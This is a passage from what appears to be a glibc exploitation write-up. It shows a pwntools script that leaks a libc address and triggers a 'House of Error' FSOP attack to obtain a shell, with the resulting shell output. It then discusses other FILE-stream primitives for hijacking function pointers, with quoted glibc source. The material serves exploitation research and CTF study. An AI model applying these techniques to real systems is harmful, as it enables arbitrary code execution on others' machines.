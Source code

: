```python
io = start()

io.recvuntil(b'@ The ASLR god gifted you a present for your adventure: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

house_of_error() # unleash the beast!

io.interactive()
```
```python
[+] puts @ 0x7fd7caa6ce80
[+] libc @ 0x7fd7ca9f3000
[*] Switching to interactive mode
/bin/sh: 1: Unleash: not found
$ id
uid=1000(pwnie) gid=1000(pwnie) groups=1000(pwnie)
$  
```

# Other interesting FILE stream primitives.
Besides `_IO_mem_sync` I found some other FSOP primitives that might be useful in some cases. 

# _IO_cookie_jumps/ _IO_wfile_jumps
Abusing `_IO_cookie_jumps` is a well known technique for FSOP primitives, the House of Emma actually is abusing this to spawn a shell in a very similar manner with the above described House. But it can be useful to us also. Even though we do not need to play with `_IO_cookie_jumps` because we can bypass the vtable check and perform a classical FSOP with `_IO_mem_sync`, in some scenarios we might be unable to craft a fake vtable somewhere. If it is the case we can defeat the pointer guard with one arbitrary write and after that we could craft a new FILE stream with `_IO_cookie_jumps` as a vtable and supply our `system` as a function pointer in our `_IO_cookie_file`.

Same thing with ` _IO_wfile_jumps`, defeating the pointer guard can give you the ability to inject your own function pointers. Actually this set of functions is useful for glibc <= 2.29 where there was no pointer guard protection and you could easily get code execution from them like `_IO_str_jumps` in glibc 2.24.

# _IO_mem_finish/_IO_wmem_finish primitive.
`_IO_mem_jumps` also include besides `_IO_mem_sync` another one interesting primitive:
```c
static void
_IO_mem_finish (FILE *fp, int dummy)
{
  struct _IO_FILE_memstream *mp = (struct _IO_FILE_memstream *) fp;

  *mp->bufloc = (char *) realloc (fp->_IO_write_base,
				  fp->_IO_write_ptr - fp->_IO_write_base + 1);
  if (*mp->bufloc != NULL)
    {
      (*mp->bufloc)[fp->_IO_write_ptr - fp->_IO_write_base] = '\0';
      *mp->sizeloc = fp->_IO_write_ptr - fp->_IO_write_base;

      fp->_IO_buf_base = NULL;
    }

  _IO_str_finish (fp, 0);
}
```